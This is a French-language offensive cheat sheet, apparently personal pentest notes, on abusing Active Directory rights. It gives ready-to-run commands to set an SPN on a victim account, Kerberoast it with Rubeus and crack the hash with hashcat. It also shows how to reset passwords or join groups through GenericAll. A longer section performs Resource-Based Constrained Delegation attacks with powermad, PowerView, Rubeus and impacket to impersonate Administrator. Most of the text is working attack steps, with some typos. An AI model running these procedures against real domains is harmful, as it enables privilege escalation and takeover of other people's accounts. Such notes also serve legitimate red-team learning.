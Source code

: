 ### 📝 Ajout d'un SPN pour Kerberoasting

Si notre utilisateur a les droits `GenericWrite` ou `GenericAll` sur un objet de l'AD, il est possible de mettre un SPN sur cet objet, ce qui le rend par la suite kerberoastable.

Énumération des droits de notre utilisateur :

```powershell
Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -match "notreUser"}
```

Mise en place d'un SPN sur l'utilisateur cible :

```powershell
Set-DomainObject -Identity UtilisateurCible -Set @{serviceprincipalname='us/hackedBro'}
---
Set-ADUser -Identity UtilisateurCible -ServicePrincipalNames @{add='us/hackedBro'}
```

Kerberoasting de l'utilisateur :

```powershell
Rubeus.exe kerberoast /outfile:target.txt
```

Cracking du hash :

```bash
hashcat '$tgs' /ush/share/wordlist/rockyou.txt
```

#### Changement direct de mot de passe avec `GenericAll`

Avec le droit `GenericAll`, il est possible de changer directement le mot de passe de l'objet sur lequel le droit s'applique, mais cette action est beaucoup moins "safe" que d'ajouter un SPN :

```powershell
net user userCible password /domain
```

#### Ajout à un groupe avec `GenericAll`

Si le droit `GenericAll` s'applique sur un groupe, il est possible de s'ajouter dans ce groupe :

```powershell
net group "groupe" user /add /domain
```

---
### 📝 GenericWrite sur un compte machine

Ce droit permet d'abuser de la Resource-Based Constrained Delegation (RBCD).
#### 🍔 Depuis Windows

Pour exploiter ce droit, nous avons besoin des scripts `powermad.ps1` et `powerview`.

Création d'un compte machine :

```powershell
import-module powermad
New-MachineAccount -MachineAccount paked -Password $(ConvertTo-SecureString 'Sup3P4ssw0rd!' -AsPlainText -Force) -Verbose
```

Vérification de la création du compte :

```powershell
Get-DomainComputer
```

Écriture de la propriété `msds-allowedtoactonbehalfofotheridentity` sur le compte machine cible :

```powershell
$ComputerSid = Get-DomainComputer paked -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $cible | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Récupération du hash du compte machine créé :

```
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

Récupération du ticket de l'utilisateur ayant des droits sur le compte machine cible :

```powershell
rubeus.exe s4u /user:paked$ /aes256:<aes256> /aes128:<aes128> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/cible /domain:domain.local /ptt /altservice:http/cible
```

#### 🐧 Depuis Linux

Création d'un compte machine :

```bash
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass '$password' -dc-host $dc -domain-netbios $DOMAIN 'domain.local\$user:$password'
```

Écriture de la propriété `msds-allowedtoactonbehalfofotheridentity` sur le compte machine cible :

```bash
impacket-rbcd -delegate-from 'paked$' -delegate-to 'cible$' -dc-ip '$dc$' -action 'write' 'domain.local'/'$utilisateur':'$Password'
```

Récupération du ticket de l'utilisateur ayant des droits sur le compte machine cible :

```bash
impacket-getST -spn 'cifs/$cible' -impersonate Administrator -dc-ip '$dc' 'domain.local/paked$:$password'
```
